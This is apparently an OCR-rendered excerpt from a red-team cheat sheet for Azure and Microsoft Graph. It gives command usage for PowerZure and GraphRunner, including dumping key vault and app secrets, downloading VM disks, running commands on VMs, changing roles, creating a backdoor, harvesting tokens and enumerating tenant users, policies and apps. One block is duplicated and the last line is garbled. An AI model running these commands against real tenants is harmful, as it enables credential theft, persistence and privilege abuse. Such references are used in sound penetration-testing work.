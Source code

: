 ### [**PowerZure**](https://github.com/hausec/PowerZure)
```powershell
Connect-AzAccount
ipmo C:\Path\To\Powerzure.psd1
Get-AzureTarget

# Reader
$ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

# Contributor
$ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
$ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
$ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
$ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

# Owner
$ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest

# Administrator
$ Create-Backdoor, Execute-Backdoor
```
### [**GraphRunner**](https://github.com/dafthack/GraphRunner/wiki/Invoke%E2%80%90GraphRunner)
```powershell

#Get-GraphTokens
#A good place to start is to authenticate with the Get-GraphTokens module. This module will launch a device-code login, allowing you to authenticate the session from a browser session. Access and refresh tokens will be written to the global $tokens variable. To use them with other GraphRunner modules use the Tokens flag (Example. Invoke-DumpApps -Tokens $tokens)
Import-Module .\GraphRunner.ps1
Get-GraphTokens

#Invoke-GraphRecon
#This module gathers information about the tenant including the primary contact info, directory sync settings, and user settings such as if users have the ability to create apps, create groups, or consent to apps.
Invoke-GraphRecon -Tokens $tokens -PermissionEnum

#Invoke-DumpCAPS
#A module to dump conditional access policies from a tenant.
Invoke-GraphRecon -Tokens $tokens -PermissionEnum

#Invoke-DumpCAPS
#A module to dump conditional access policies from a tenant.
Invoke-DumpCAPS -Tokens $tokens -ResolveGuids

#Invoke-DumpApps
#This module helps identify malicious app registrations. It will dump a list of Azure app registrations from the tenant including permission scopes and users that have consented to the apps. Additionally, it will list external apps that are not owned by the current tenant or by Microsoft's main app tenant. This is a good way to find third-party external apps that users may have consented to.
Invoke-DumpApps -Tokens $tokens

#Get-AzureADUsers
#Gather the full list of users from the directory.
Get-AzureADUsers -Tokens $tokens -OutFile users.txt

#Get-SecurityGroups
#Create a list of security groups along with their members.
Get-SecurityGroups -AccessToken $tokens.access_token

G#et-UpdatableGroups
```